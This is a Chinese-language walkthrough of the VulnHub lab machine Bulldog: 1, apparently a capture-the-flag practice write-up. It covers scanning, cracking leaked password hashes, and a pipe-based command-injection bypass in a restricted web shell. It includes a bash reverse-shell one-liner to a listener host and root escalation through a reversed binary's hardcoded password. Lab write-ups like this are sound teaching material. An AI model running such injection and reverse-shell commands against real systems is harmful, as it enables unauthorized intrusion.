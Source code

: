 # BULLDOG: 1

2025.02.12 https://www.vulnhub.com/entry/bulldog-1,211/

[video](https://www.bilibili.com/video/BV1qXKLe5Eu1/?vd_source=aed2f374c732513d2e535afafb1fd2ec)

## Ip

192.168.5.40

## Scan

```
PORT     STATE SERVICE
23/tcp   open  telnet
80/tcp   open  http
8080/tcp open  http-proxy
```

访问 80 和 8080 两个端口显示的网站一致，gobuster 发现 http://192.168.5.40:8080/notice/ 中可以看到一个可能存在的用户名: Winston Churchy (CEO) ，另外发现 2 个链接: http://192.168.5.40:8080/admin 和 http://192.168.5.40:8080/dev， /admin 是一个系统登陆窗口使用 Django 开发，/dev 页面上显示了一些提示， 同时发现了一个 webshell 的页面 http://192.168.5.40/dev/shell

查看 /dev 的页面源码，在底部发现了一些重要信息：

```
<!--Need these password hashes for testing. Django's default is too complex-->
<!--We'll remove these in prod. It's not like a hacker can do anything with a hash-->
Team Lead: alan@bulldogindustries.com<br><!--6515229daf8dbdc8b89fed2e60f107433da5f2cb-->
Back-up Team Lead: william@bulldogindustries.com<br><br><!--38882f3b81f8f2bc47d9f3119155b05f954892fb-->
Front End: malik@bulldogindustries.com<br><!--c6f7e34d5d08ba4a40dd5627508ccb55b425e279-->
Front End: kevin@bulldogindustries.com<br><br><!--0e6ae9fe8af1cd4192865ac97ebf6bda414218a9-->
Back End: ashley@bulldogindustries.com<br><!--553d917a396414ab99785694afd51df3a8a8a3e0-->
Back End: nick@bulldogindustries.com<br><br><!--ddf45997a7e18a25ad5f5cf222da64814dd060d5-->
Database: sarah@bulldogindustries.com<br><!--d8b8dd5e7f000b8dea26ef8428caf38c04466b3e-->
```

使用 https://crackstation.net/ 在线对哈希进行解密，得到了 2 个明文密码：

```
bulldog
bulldoglover
```

得到了登陆凭据: nick:bulldog 和 sarah:bulldoglover 用这 2 个凭据登陆 /admin 后，发现页面上没有权限。这时在访问 http://192.168.5.40/dev/shell/ 发现可以进入到 webshell 中了。

webshell 中显示可以执行下面的命令：

```
ifconfig
ls
echo
pwd
cat
rm
```

但是可以绕过：ls|id 这时也会执行其他命令，所以直接反弹 shell，kali 上建立监听:

```
ls|/bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.5.3/8888 0>&1'
```

得到了反弹的链接：

```
django@bulldog:/home/django/bulldog$ id
id
uid=1001(django) gid=1001(django) groups=1001(django),27(sudo)
```

发现 2 个普通用户：

```
bulldogadmin:x:1000:1000:bulldogadmin,,,:/home/bulldogadmin:/bin/bash
django:x:1001:1001:,,,:/home/django:/bin/bash
```

在 /home/bulldogadmin/.hiddenadmindirectory 中发现了 2 个文件，note.txt ：

```
django@bulldog:/home/bulldogadmin/.hiddenadmindirectory$ cat note
Nick,

I'm working on the backend permission stuff. Listen, it's super prototype but I think it's going to work out great. Literally run the app, give your account password, and it will determine if you should have access to that file or not!

It's great stuff! Once I'm finished with it, a hacker wouldn't even be able to reverse it! Keep in mind that it's still a prototype right now. I am about to get it working with the Django user account. I'm not sure how I'll implement it for the others. Maybe the webserver is the only one who needs to have root access sometimes?

Let me know what you think of it!

-Ashley
```

另外一个 customPermissionApp 是一个可执行程序，但是没有执行权限，但是有读权限，使用当前用户 cp 一份该程序。根据上面的提示，逆向该程序，找到了一串字符串: SUPERultimatePASSWORDyouCANTget ，并且程序中执行了 system("sudo su root"); 。执行这个程序，输入这个字符串，得到了 root 权限：

```
./customPermissionApp

root@bulldog:~# cat congrats.txt
Congratulations on completing this VM :D That wasn't so bad was it?

Let me know what you thought on twitter, I'm @frichette_n

As far as I know there are two ways to get root. Can you find the other one?

Perhaps the sequel will be more challenging. Until next time, I hope you enjoyed!
```

最后发现 django 用户 sudo -l 权限为 ALL。
